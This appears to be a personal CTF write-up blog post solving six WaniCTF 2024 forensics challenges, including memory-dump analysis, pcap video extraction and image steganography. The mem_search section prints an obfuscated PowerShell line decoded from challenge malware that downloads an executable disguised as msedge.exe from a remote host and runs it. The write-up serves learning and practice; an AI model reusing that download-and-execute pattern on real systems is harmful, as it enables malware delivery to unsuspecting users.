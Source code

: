 ```yaml
---
title: WaniCTF
tags: [Forensics]
layout: post
date:   2024-08-12 00:00:00
excerpt: "WanCTFs 2024"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
---
```


# WaniCTF
All the challenges: https://drive.google.com/drive/folders/1n-0bDNWddJO4AJDAYqCwFduhcAZgcK61?usp=sharing

---
## Tiny_usb
### Beginner

![image](https://hackmd.io/_uploads/SyY35WBIC.png)

The challenge gave us a iso file, just extract it and you will get a flag.

![FLAG](https://hackmd.io/_uploads/HJqQ5-HIR.png)

---
## Surveillance_of_sus
### Normal
![image](https://hackmd.io/_uploads/SJNCcbSI0.png)

The challenge gave us a bin file so I will strings it out first

![image](https://hackmd.io/_uploads/S1Jd2bH8C.png)
I found out that its a RDP8Bmp so I will be using this **[tool](https://github.com/ANSSI-FR/bmc-tools)** to extract it https://github.com/ANSSI-FR/bmc-tools

![image](https://hackmd.io/_uploads/Hk4UR-BIR.png)

![image](https://hackmd.io/_uploads/ByyqCbS8R.png)
and you will get the flag.

![image](https://hackmd.io/_uploads/H1OeyGrI0.png)
You can try to fix it by yourself or just guess the word and submit it.

---
## tiny_10px
### Normal

![image](https://hackmd.io/_uploads/ryDm7GB80.png)
The challenge gave us a small picture

![chal_tiny_10px](https://hackmd.io/_uploads/B1Y6QMHU0.jpg)  **<--------------this is the image lol**

Based on the name of the challenge  "Tiny_10px" and size, how can this tiny piece of image can be over 44kbs?

![image](https://hackmd.io/_uploads/rJzsEzrIR.png) 

So its must be Height and Widgth Steganography and its a JPG

![image](https://hackmd.io/_uploads/ByLHHzBL0.png)

Do it by yourself by modifying the Hex bytes!
You may get this kind of result: 

![8](https://hackmd.io/_uploads/S10IIGB8R.jpg)
you can you editor or paint to get the flag, anyway here is the final flag 

![fixed](https://hackmd.io/_uploads/ryn4YMr8C.jpg)

---
## mem_search
### Hard
![image](https://hackmd.io/_uploads/rkPbiGS8R.png)

The challenge gave us a DUMP file, so I will be using volatility to solve this, its also told us that the user found an unknown file so I will be checking the download folder first.

![image](https://hackmd.io/_uploads/Sk3z2GSLR.png)

after checking the download I found there a suspicous file thats is "**read_this_as_admin.download**" so I dump it right away
![image](https://hackmd.io/_uploads/BJSLaMH80.png)

The file connect the user to a website and download a file, so I will search for that file then read it again.

![image](https://hackmd.io/_uploads/HJBC6MSUC.png)
![image](https://hackmd.io/_uploads/BkbfCzHL0.png)

The file seem to be executing a powershell script after decode the string here the result:

```
$u='ht'+'tp://192.168.0.16:8282/B64_dec'+'ode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_s'+'.arch.e'+'.xe';$t='Wan'+'iT'+'.mkdir -force $env:TMP\\.$t;try{iwgr -OutFile $d\\msedg.exe;& $d\\msedg.exe;}catch{}

```

URL: **http://192.168.0.16:8282/B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_search.exe**
Assigns the directory $env:TMP\\WanIT
Its attempts to download the file **msedge.exe** from the URL into the directory and then executes it.
so we know the malware name, its **"msedge.exe"** so I need search then dump it out.

![image](https://hackmd.io/_uploads/B18L1QH80.png)

throw it in [TotalVirus](https://www.virustotal.com/gui/home/upload), here the result:

![image](https://hackmd.io/_uploads/SkFjkmSIA.png)

**Its reversing time!**

![image](https://hackmd.io/_uploads/BkHyGQB8A.png)

The first thing that catch my eye is the fake flag lol
FLAG{Hacked_yikes_spooky}
Anyway after analyze the whole malware its lead me to nothing so we need to take a step back to look for more clue then I notice something weird with the link

**`B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==`**
why does it has the part "B64_decode_....", then I tried decode the latter part and got the Flag:
### **FLAG{Dayum_this_is_secret_file}**


---
## I_wanna_be_a_streamer
### Normal

![image](https://hackmd.io/_uploads/BJ5TmoSU0.png)

The challenge gave us a pcap file

![image](https://hackmd.io/_uploads/SJfFEoBUC.png)
 
As you can see in the rex box, the user connect to a Camera using RTP protocol

![image](https://hackmd.io/_uploads/SJ50NirUR.png)
 
after reading tons and tons of articles about RTP protocol
 
![image](https://hackmd.io/_uploads/SyIzBoHLR.png)

I finally found a way to solve this challenge
 
*  First install this plugin for your wireshark 
 **------>https://github.com/volvet/h264extractor<------**
*  open wireshark > Analyze > Decode as > add > RTP ( or RTP payload smth) > Edit > Preferences > Protocol > H.264 (type == 96) > Menu > Tools > Extract h264 stream from RTP
*  ffmpeg -i file_extracted -c copy flag.mp4
 
![image](https://hackmd.io/_uploads/ByGMPiSL0.png)

---
## Codebreaker
### Beginner (I hate this chall)

![image](https://hackmd.io/_uploads/H11vOiSLC.png)

the chall gave us a qrcode but got broken

![chal_codebreaker](https://hackmd.io/_uploads/SyK9_oHUC.png)

Just like one of the challenge that I already done 
------>https://hackmd.io/v3qpKEIWT1-aZbWrkaS2Ig (sr I wrote it in Vietnamese)
I reconstructed the Qrcode by replacing the 3 corner first

![image](https://hackmd.io/_uploads/ByCMKirUC.png)

then I got the flag lmao, I got bad luck cause I have done a lots when I say a lots I really mean it, it cost me hours.
### FLAG{How_scan-dalous}

![image](https://hackmd.io/_uploads/SJwjKjBLR.png)
Okay Mikka thanks for the challs anyway whats a fun CTFs to play